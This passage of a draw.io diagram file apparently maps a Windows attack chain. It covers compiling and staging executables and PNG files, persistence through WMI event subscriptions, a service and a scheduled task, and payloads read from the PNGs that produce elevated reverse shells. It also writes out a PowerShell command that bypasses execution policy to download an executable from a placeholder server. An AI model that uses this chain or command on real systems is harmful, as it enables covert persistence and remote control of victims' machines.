        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-22" value="" style="group" parent="Op0RA1QyIyzGp62vVNNJ-14" vertex="1" connectable="0">
          <mxGeometry x="70" y="40" width="140" height="150" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-15" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-22" vertex="1">
          <mxGeometry width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-16" value="Pers_High.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-17" value="9201.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-18" value="9202.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-15" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-21" value="9203.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="Op0RA1QyIyzGp62vVNNJ-22" vertex="1">
          <mxGeometry y="120" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-20" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="Op0RA1QyIyzGp62vVNNJ-23" target="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-23" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1470" width="1160" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-24" value="Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-25" value="9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-26" value="9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-27" value="9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-28" value="9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="700" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-29" value="9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-31" value="Scheduled_Task_Template.xml" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="Op0RA1QyIyzGp62vVNNJ-23" vertex="1">
          <mxGeometry x="960" y="50" width="180" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-30" value="9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="1300" y="1520" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-32" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="1643" width="960" height="382" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-33" value="Download staged binaries and png&#39;s to High IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-34" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_High.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-35" value="Execute Pers_High.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-36" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-33" target="Op0RA1QyIyzGp62vVNNJ-35" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-37" target="HUqxwyjqBnD8ekD1RPLn-0">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-37" value="Create WMI Event Filter, Subscription, and Binding (Every min.)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="100" width="130" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-37" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-39" value="Create New Service&lt;br&gt;(On-Demand)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="Op0RA1QyIyzGp62vVNNJ-32" vertex="1">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="Op0RA1QyIyzGp62vVNNJ-39" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-44" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-39" target="HUqxwyjqBnD8ekD1RPLn-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-0" target="Op0RA1QyIyzGp62vVNNJ-41">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-0" value="Execute 9201.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="638" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-7" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-6" target="Op0RA1QyIyzGp62vVNNJ-43">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-6" value="Execute 9202.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="638" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-8" value="" style="group" vertex="1" connectable="0" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="806" y="162" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-43" value="Read Payload From 9202.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-8" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-46" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-8" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-9" value="" style="group" vertex="1" connectable="0" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="806" y="60" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-41" value="Read Payload From 9201.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-9" vertex="1">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-45" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="HUqxwyjqBnD8ekD1RPLn-9" vertex="1">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-13" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-10" target="HUqxwyjqBnD8ekD1RPLn-12">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-10" value="Import Scheduled_Task_Template.xml&lt;br&gt;(Every 2 min.)" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="470" y="242" width="180" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="Op0RA1QyIyzGp62vVNNJ-35" target="HUqxwyjqBnD8ekD1RPLn-10">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="320" y="170.0" as="sourcePoint" />
            <mxPoint x="480" y="205" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="Op0RA1QyIyzGp62vVNNJ-32" source="HUqxwyjqBnD8ekD1RPLn-12" target="HUqxwyjqBnD8ekD1RPLn-15">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-12" value="Execute 9203.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="680" y="282" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-14" value="" style="group" vertex="1" connectable="0" parent="Op0RA1QyIyzGp62vVNNJ-32">
          <mxGeometry x="830" y="282" width="120" height="90" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-15" value="Read Payload From 9203.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="HUqxwyjqBnD8ekD1RPLn-14">
          <mxGeometry y="40" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="HUqxwyjqBnD8ekD1RPLn-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="HUqxwyjqBnD8ekD1RPLn-14">
          <mxGeometry width="120" height="40" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
